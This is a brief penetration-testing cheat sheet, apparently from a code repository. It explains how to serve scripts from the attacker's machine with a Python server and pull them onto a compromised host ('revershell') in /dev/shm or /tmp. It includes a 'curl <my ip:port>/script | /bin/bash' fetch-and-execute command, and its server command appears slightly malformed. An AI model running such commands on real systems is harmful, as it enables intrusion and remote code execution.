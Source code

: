 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
 python3 -m server 8000
```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 
